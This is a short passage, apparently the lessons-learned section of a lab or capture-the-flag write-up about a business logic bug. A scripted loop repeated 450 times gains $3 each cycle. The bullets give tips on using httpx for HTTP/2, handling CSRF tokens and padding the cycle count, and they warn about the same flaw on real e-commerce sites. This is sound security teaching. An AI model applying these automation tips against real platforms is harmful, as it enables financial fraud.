* **`httpx` over `requests` when HTTP/2 is involved.** Small detail but worth knowing. If a site uses HTTP/2 and your script uses `requests`, you might get unexpected behavior or errors. `httpx` is a drop-in replacement that handles it cleanly.

* **Add a buffer to your cycle count.** I ran 450 instead of 412 — not because the math was wrong, but because anything can fail mid-run: a network hiccup, a CSRF token that didn't parse correctly, a slow response. A small buffer means you don't have to babysit the script or re-run it from a checkpoint.

* **Business logic bugs scale dangerously.** A $3 gain per cycle sounds harmless. 450 cycles automated in a few minutes is a $1337 balance. The same pattern in a real e-commerce platform with real money attached is a much bigger problem. The simplicity of the exploit is what makes it dangerous.